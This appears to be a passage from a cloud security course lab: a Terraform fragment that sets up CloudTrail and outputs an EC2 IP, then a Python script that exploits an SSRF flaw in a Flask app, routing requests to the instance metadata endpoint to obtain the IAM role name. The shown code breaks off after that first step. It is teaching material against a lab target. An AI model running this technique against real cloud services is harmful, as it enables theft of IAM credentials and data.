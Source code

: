 ```hcl
  name                          = "seas8405-week6-lab1-cloudtrail"
  s3_bucket_name                = aws_s3_bucket.trail_bucket.id
  include_global_service_events = true
  is_multi_region_trail         = true
  depends_on = [aws_s3_bucket_policy.trail_bucket_policy]
}

output "ec2_public_ip" {
  value = aws_instance.ec2_instance.public_ip
}
```

### Python Code for Exploiting SSRF Vulnerability

This Python script exploits the SSRF vulnerability in the Flask app to retrieve IAM credentials from the Instance Metadata Service (IMDS) and access the S3 bucket.

```python
import requests
import json
import boto3
import subprocess


def get_ec2_public_ip():
    try:
        result = subprocess.run(
            ['terraform', 'output', '-raw', 'ec2_public_ip'],
            capture_output=True,
            text=True,
            check=True
        )
        ec2_ip = result.stdout.strip()
        return ec2_ip
    except subprocess.CalledProcessError as e:
        print(f"Error: Failed to retrieve EC2 public IP with Terraform: {e}")
        return None
    except Exception as e:
        print(f"Error: An unexpected issue occurred: {e}")
        return None


def main():
    ec2_ip = get_ec2_public_ip()
    if not ec2_ip:
        print("Failed to retrieve the EC2 public IP. Exiting.")
        return

    print(f"The EC2 public IP address is: {ec2_ip}")
    base_url = f'http://{ec2_ip}/fetch?url='

    # Step 1: Retrieve IAM role name from IMDS via SSRF
    role_url = base_url + 'http://169.254.169.254/latest/meta-data/iam/security-credentials/'
    try:
        response = requests.get(role_url)
        if response.status_code != 200:
            print(f'Error: Failed to retrieve IAM role name. Status code: {response.status_code}')
            return
        role_name = response.text.strip()
        print(f'Step 1: Retrieved IAM Role Name: {role_name}')
    except requests.RequestException as e:
        print(f'Error: Unable to connect to Flask app for role name: {e}')
        return

```